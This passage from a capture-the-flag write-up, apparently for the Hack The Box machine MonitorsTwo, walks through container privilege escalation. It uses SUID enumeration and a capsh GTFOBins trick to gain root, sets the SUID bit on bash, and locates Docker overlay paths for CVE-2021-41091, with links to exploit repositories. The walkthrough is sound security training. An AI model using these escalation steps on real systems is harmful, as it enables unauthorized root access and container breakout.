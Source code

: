 ```bash
Best regards,                                                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                                                                          
Administrator                                                                                                                                                                                                                                                                             
CISO                                                                                                                                                                                                                                                                                      
Monitor Two                                                                                                                                                                                                                                                                               
Security Team                      
```

The CVE affecting Moby looks interesting. Instead of launching the exploit script for that CVE on target[^cve-2021-41091], I'll analyze the exploit in the Summary of Exploits section below and use this example to escalate privileges to root.

In that section, I mentioned that we need root access from within the container. So how can we get that?

```bash
www-data@50bca5e748b0:/var/www/html$ find / -perm /4000 2>/dev/null
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/sbin/capsh
/bin/mount
/bin/umount
/bin/bash
/bin/su
```

/sbin/capsh is out of the usual from the ordinary list of binaries with the SUID bit set. GTFObins[^gtfobins] contains an entry for suid bit with capsh. 

```bash
www-data@50bca5e748b0:/var/www/html$ capsh --gid=0 --uid=- --      
root@50bca5e748b0:/var/www/html# whoami
root
```

Now that we are root, change the permissions of the bash binary.

```bash
root@50bca5e748b0:/var/www/html# chmod +s /bin/bash
```

Switch to the shell with marcus and find the data overlay that contains the modified bash binary.

```bash
marcus@monitorstwo:~$ findmnt | grep docker/overlay2 | awk '{ print $1 }'
├─/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
├─/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
marcus@monitorstwo:~$ find /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged -name bash -ls 2>/dev/null
    24304    944 -rwxr-xr-x   1 root     root       964536 Nov 23  2021 /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged/usr/bin/bash
marcus@monitorstwo:~$ find /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged -name bash -ls 2>/dev/null
    43825      4 drwxr-xr-x   2 root     root         4096 Mar 22  2023 /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/usr/share/doc/bash
    46944      4 -rw-r--r--   1 root     root          194 Mar 27  2022 /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/usr/share/menu/bash
```

[^htb-link]: <https://app.hackthebox.com/machines/539>
[^cve]: <https://github.com/ariyaadinatha/cacti-cve-2022-46169-exploit>
[^cve-2022-46169]: <https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/>
[^upgrade-reverse-shell]: <https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/>
[^docker-breakout]: <https://juggernaut-sec.com/docker-breakout-lpe/#Confirming_we_are_in_a_Docker_Container>
[^hashcat]: <https://hashcat.net/wiki/doku.php?id=example_hashes>
[^cve-2021-41091]: <https://github.com/UncleJ4ck/CVE-2021-41091/blob/main/exp.sh>
[^gtfobins]: <https://gtfobins.github.io/gtfobins/capsh/>